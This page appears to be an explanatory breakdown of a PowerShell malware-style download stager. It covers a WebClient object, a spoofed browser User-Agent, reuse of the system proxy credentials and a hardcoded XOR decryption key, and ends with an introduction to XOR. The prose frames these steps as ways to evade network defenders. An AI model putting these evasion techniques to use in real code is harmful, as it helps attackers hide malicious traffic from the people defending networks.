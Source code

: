 
```
$webClient = New-Object System.Net.WebClient
```

This creates a WebClient object, which is used to download data from the web.

```
$userAgent = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'
$webClient.Headers.Add('User-Agent', $userAgent)
```

This sets the User-Agent header to mimic a browser request.

```
$webClient.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$webClient.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
```

Configures the WebClient to use the system's default proxy settings and credentials. Many networks use a proxy server to control and monitor traffic between the internal network and the internet. By configuring the WebClient to use the default system proxy, we ensure that network requests adhere to the organization’s network policies. Also, some proxies require authentication. Configuring the WebClient with system credentials allows it to authenticate with the proxy server, ensuring successful communication.

Using system settings helps the WebClient blend in with standard network behavior, making the traffic less suspicious and reducing the risk of detection. Adhering to system-wide proxy settings ensures that your requests look like normal traffic, making it harder for network defenders to distinguish your actions from legitimate user activity.



```
$key = '7c37be7260f8cd7c1f5e4dbdd7bc5b23'
$index = 0
```

Sets up the key for XOR decryption.

XOR (exclusive OR - "true when either but not both inputs are true") is a bitwise operation used for simple encryption and decryption. It is a fundamental operation in many cryptographic algorithms. The XOR operation is defined as follows:

If the bits are the same, the result is 0.

If the bits are different, the result is 1.

Each byte of the encoded data is XORed with a byte from the key. The result is a seemingly random string of characters. To decode the data, the same XOR operation is performed again with the same key. This is because XORing a value twice with the same key returns the original value.

Here’s a more detailed breakdown of the process:

- Original Data (D): This is the byte or piece of data you want to encrypt. For simplicity, let's say D is a byte with a value of 01010101 in binary.

- Key (K): This is a byte or series of bytes used to perform the XOR operation. Assume the key K is 00110011.

The encryption operation uses XOR to combine the original data with the key. For each bit in the data byte, XOR it with the corresponding bit in the key byte. For instance, E = D XOR K, where E is the encrypted output.
